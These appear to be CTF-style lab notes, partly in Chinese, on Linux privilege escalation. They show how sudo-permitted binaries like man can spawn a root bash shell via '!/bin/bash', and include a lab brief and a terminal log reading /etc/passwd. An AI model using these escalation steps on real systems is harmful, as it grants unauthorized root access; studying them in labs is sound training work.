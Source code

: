 The issue here is with specific binaries on Linux, in addition to performing the functionality that they were developed for, they can also be used to execute specific commands. In the case of man, we are able to execute or to launch a bash session. And if the man utility or binary or rather any binary that has been configured with the following sudo privileges, runs with those privileges then that means whatever we execute will be executed as the root user. And in order to elevate our privileges, all that we needed to do was just say we want to launch a bash session. And because that command was executed with root privileges, it opened up a bash session with those privileges. 

```
sudo man cd
sudo man nano
sudo man vim
```

```
!/bin/bash
```

We've successfully elevated our privileges.

# Editing Gone Wrong
## Overview
You have managed to get access to the "student" account on the client's server. This is bad enough as all the student resources are available to you. You are now trying to escalate privileges to get root. After some digging around and from other sources, you figure out that the same person in the organization uses both the student account and the root account on the system. 

Your mission is to escalate privileges, get a root shell on the box and retrieve the flag!

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-80.pdf

# 编辑出了问题
## 概述
您已成功访问客户服务器上的“学生”帐户。这已经很糟糕了，因为您可以访问所有学生资源。现在，您正在尝试升级特权以获取 root 权限。经过一番搜索和来自其他来源的信息，您发现组织中的同一人使用系统上的学生帐户和 root 帐户。

您的任务是升级特权，在该服务器上获取 root shell 并检索标志！

## 解决方案
此实验室的解决方案可以在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-80.pdf

## 复现视频内容

```
student@attackdefense:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```